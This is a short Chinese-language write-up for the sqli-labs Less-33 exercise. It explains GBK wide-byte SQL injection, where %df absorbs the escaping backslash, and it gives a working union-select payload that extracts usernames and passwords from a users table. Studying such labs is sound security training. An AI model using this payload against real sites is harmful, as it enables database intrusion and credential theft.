

# 知识点：
**宽字节注入原理** MySQL 在使用 GBK 编码的时候，会认为两个字符为一个汉字，例如 %aa%5c 就是一个 汉字。因为过滤方法主要就是在敏感字符前面添加 反斜杠 \，所以这里想办法干掉反斜杠即可。

1. %df 吃掉 \

具体的原因是 urlencode(\') = %5c%27，我们在%5c%27 前面添加%df，形 成%df%5c%27，MySQL 在 GBK 编码方式的时候会将两个字节当做一个汉字，这个时候就把%df%5c 当做是一个汉字，%27 则作为一个单独的符号在外面，同时也就达到了我们的目的。
# 思路：
payload:[?id=-1%df'](http://sql-labs/Less-33/?id=-1%df') union select 1,2,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+users)--+ 
